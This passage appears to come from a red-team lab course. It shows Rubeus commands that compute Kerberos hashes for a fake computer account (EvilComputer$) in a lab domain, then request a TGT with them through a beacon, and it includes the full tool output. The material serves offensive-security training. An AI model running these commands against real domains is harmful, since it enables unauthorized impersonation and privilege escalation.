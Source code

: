  

Rubeus `hash` can take that password and calculate their hashes.
```
PS C:\Users\Attacker> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe hash /password:oIrpupAtF1YCXaw /user:EvilComputer$ /domain:dev.cyberbotic.io

[*] Action: Calculate Password Hash(es)

[*] Input password             : oIrpupAtF1YCXaw
[*] Input username             : EvilComputer$
[*] Input domain               : dev.cyberbotic.io
[*] Salt                       : DEV.CYBERBOTIC.IOhostevilcomputer.dev.cyberbotic.io
[*]       rc4_hmac             : 73D0774058830F841C9205C857C9EE62
[*]       aes128_cts_hmac_sha1 : FB9A1AB8567D4EF4CEA6186A115D091A
[*]       aes256_cts_hmac_sha1 : 7A79DCC14E6508DA9536CD949D857B54AE4E119162A865C40B3FFD46059F7044
[*]       des_cbc_md5          : 49B5514F1F45700D
```
  

These can then be used with `asktgt` to obtain a TGT for the fake computer.
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:EvilComputer$ /aes256:7A79DCC14E6508DA9536CD949D857B54AE4E119162A865C40B3FFD46059F7044 /nowrap

[*] Action: Ask TGT

[*] Using aes256_cts_hmac_sha1 hash: 7A79DCC14E6508DA9536CD949D857B54AE4E119162A865C40B3FFD46059F7044
[*] Building AS-REQ (w/ preauth) for: 'dev.cyberbotic.io\EvilComputer$'
[*] Using domain controller: 10.10.122.10:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIF8j[...]MuaW8=

  ServiceName              :  krbtgt/dev.cyberbotic.io
  ServiceRealm             :  DEV.CYBERBOTIC.IO
  UserName                 :  EvilComputer$
  UserRealm                :  DEV.CYBERBOTIC.IO
  StartTime                :  9/13/2022 2:31:34 PM
  EndTime                  :  9/14/2022 12:31:34 AM
  RenewTill                :  9/20/2022 2:31:34 PM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  /s6yAyTa1670VNAT9yYBGya/mqOU/YJSLu0XuD2ReBE=
  ASREP (key)              :  7A79DCC14E6508DA9536CD949D857B54AE4E119162A865C40B3FFD46059F7044
```
  

And the rest of the attack is the same.
